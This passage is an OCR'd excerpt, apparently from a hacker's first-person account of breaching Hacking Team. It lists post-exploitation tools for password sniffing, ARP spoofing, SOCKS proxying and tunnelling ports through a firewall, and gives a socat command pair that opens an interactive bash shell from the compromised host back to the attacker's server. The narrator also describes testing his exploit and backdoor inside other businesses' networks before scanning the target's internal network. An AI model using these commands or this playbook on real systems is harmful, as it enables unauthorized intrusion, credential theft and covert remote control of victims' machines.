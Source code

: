 6) dsniff

   for snooping passwords from vulnerable protocols like ftp, and for
   arpspoofing. I'd rather have used ettercap, writen by Hacking
   Team's own ALoR and NaGA, but it was difficult to compile for the
   system.

7) socat

   for a handy pty shell:

   my_server: socat file: `tty`, raw, echo=0, tcp-listen:mi_port
   hacked_system: socat exec:'bash -li',pty,stderr,setsid,sigint,\
                  sane tcp:my_server:my_port

   And for many other things. It's a network swiss army knife. See the
   examples section of its documentation.

8) screen

   like socat's pty, not strictly necessary, but I wanted to feel at
   home in Hacking Team's network.

9) a SOCKS proxy server

   to use together with proxychains for accessing the internal network
   with this or that other programme.

10) tgcd

  for forwarding ports, like those of the SOCKS server, through the
    firewall.

	[1] https://www.busybox.net/
	[2] https://nmap.org/
	[3] https://github.com/SpiderLabs/Responder
	[4] https://github.com/bendmorris/static-python
	[5] http://www.tcpdump.org/
	[6] http://www.monkey.org/~dugsong/dsniff/
	[7] http://www.dest-unreach.org/socat/
	[8] https://www.gnu.org/software/screen/
	[9] http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
	[10] http://tgcd.sourceforge.net/

The worst thing that could happen would be that my backdoor or
post-exploit tools would make the system unstable, and force an
employee to investigate. So I spent a week testing my exploit,
backdoor, and post-exploit tools in the networks of other vulnerable
businesses before entering Hacking Team network.

----[ 7 - Watch and listen ]----------------------------------------

Now that I was inside the internal network, I wanted to take a look
around and think about my next step. Switching Responder.py to
analysis mode (-A, to listen without sending poisoned responses), and
performed a slow scan with nmap.

----[ 8 - NoSQL databases ]-----------------------------------------

